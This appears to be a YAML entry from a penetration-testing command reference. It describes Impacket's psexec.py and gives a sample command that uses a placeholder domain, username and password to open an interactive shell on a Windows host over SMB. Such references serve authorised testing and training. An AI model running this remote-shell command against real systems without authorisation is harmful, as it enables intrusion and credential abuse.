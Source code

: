 ```yaml
---
description: |
  Impacket's psexec.py offers psexec like functionality. This will give you an interactive shell on the Windows host.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123
command: |
  python3 psexec.py test.local/john:password123@10.10.10.1
items:
  - Password
  - Username
services:
  - SMB
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
---
```

